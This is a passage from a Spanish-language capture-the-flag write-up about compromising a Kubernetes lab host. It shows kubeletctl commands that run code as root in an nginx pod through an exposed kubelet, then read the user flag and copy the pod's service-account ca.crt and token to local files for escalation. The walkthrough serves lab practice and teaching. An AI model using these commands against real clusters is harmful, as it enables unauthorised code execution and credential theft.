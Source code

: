 ```js
-s: Asignación de la IP del servidor.
exec: Ejecución de comandos dentro del servidor.
-p: Nombre del proceso (POD).
-c: Nombre del contenedor.
```
Al entender el comando y ejecutarlo, vemos el siguiente resultado.

```js
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```

Al saber que si se puede ejecutar comandos dentro del contenedor podemos traer la flag del usuario, ubicada en la ruta /root/user.txt y subirla a la plataforma.

```js
kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
187e6664a685********************
```

## [](#header-2)Escalada

Ya que se sabe que se puede obtener información del sistema por medio de los comandos anteriores, se procede a buscar información importante en el sistema.
Actualmente hay una página llamada HackTricks, esta nos permite obtener información sobre formas de hackeo. En este caso como estamos tocando temas de Kubernetes, se procede a realizar
la busqueda sobre este tema y se observar que se encuentra la siguiente información. 

[Kubernetes Tokens](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration#kubernetes-tokens), esto nos indica que si se tiene comprometido el POD y
se puede ejecutar comandos, se puede agregar un token ademas de traer la información del sistema.

Las rutas donde se pueden encontrar este token son:

- /run/secrets/kubernetes.io/serviceaccount	
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount

Se procede a probar una por una y vemos el siguiente resultado.

```js
kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
ca.crt  namespace  token
```

**¿Qué significa cada archivo?**

```js
ca.crt: Certificado por parte de kubernetes para comprobar las comunicaciones.
namespace: Nombre actual de los espacios.
token: Contiene el token del servicio actual.
```

Como ya se sabe para que sirve cada archivo, se pueden descargar los mas importantes (ca.crt y token) para así ganar acceso al sistema.

```js
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
```
```js
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
```

